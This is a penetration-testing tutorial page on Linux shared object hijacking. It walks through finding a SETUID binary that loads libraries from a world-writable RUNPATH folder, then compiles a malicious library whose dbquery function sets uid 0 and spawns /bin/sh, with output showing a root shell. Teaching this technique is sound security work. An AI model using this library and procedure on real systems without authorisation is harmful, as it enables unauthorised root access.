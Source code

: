 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Shared Object Hijacking

Programs and binaries under development usually have custom libraries associated with them. Consider the following `SETUID` binary.

```shell-session
user@target:~$ ls -la payroll

-rwsr-xr-x 1 root root 16728 Sep  1 22:05 payroll
```

We can use [ldd](https://manpages.ubuntu.com/manpages/bionic/man1/ldd.1.html) to print the shared object required by a binary or shared object. `Ldd` displays the location of the object and the hexadecimal address where it is loaded into memory for each of a program's dependencies.

```shell-session
user@target:~$ ldd payroll

linux-vdso.so.1 =>  (0x00007ffcb3133000)
libshared.so => /development/libshared.so (0x00007f0c13112000)
libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f7f62876000)
/lib64/ld-linux-x86-64.so.2 (0x00007f7f62c40000)
```

We see a non-standard library named `libshared.so` listed as a dependency for the binary. As stated earlier, it is possible to load shared libraries from custom locations. One such setting is the `RUNPATH` configuration. Libraries in this folder are given preference over other folders. This can be inspected using the [readelf](https://man7.org/linux/man-pages/man1/readelf.1.html) utility.

```shell-session
user@target:~$ readelf -d payroll  | grep PATH

 0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

The configuration allows the loading of libraries from the `/development` folder, which is writable by all users. This misconfiguration can be exploited by placing a malicious library in `/development`, which will take precedence over other folders because entries in this file are checked first (before other folders present in the configuration files).

```shell-session
user@target:~$ ls -la /development/

total 8
drwxrwxrwx  2 root root 4096 Sep  1 22:06 ./
drwxr-xr-x 23 root root 4096 Sep  1 21:26 ../
```

```shell-session
user@target:~$ cp /lib/x86_64-linux-gnu/libc.so.6 /development/libshared.so
```

We can copy an existing library to the `development` folder. Running `ldd` against the binary lists the library's path as `/development/libshared.so`, which means that it is vulnerable.&#x20;

```shell-session
user@target:~$ ./payroll 

./payroll: symbol lookup error: ./payroll: undefined symbol: dbquery
```

Executing the binary throws an error stating that it failed to find the function named `dbquery`. We can compile a shared object which includes this function.

{% code title="src.c Library" %}
```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
} 
```
{% endcode %}

The `dbquery` function sets our user id to 0 (root) and executing `/bin/sh` when called. Compile it using [GCC](https://linux.die.net/man/1/gcc).

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Executing the binary again should display the banner and pops a root shell.

```shell-session
user@target:~$ ./payroll 

***************Inlane Freight Employee Database***************

Malicious library loaded
# id
uid=0(root) gid=1000(mrb3n) groups=1000(mrb3n)
```
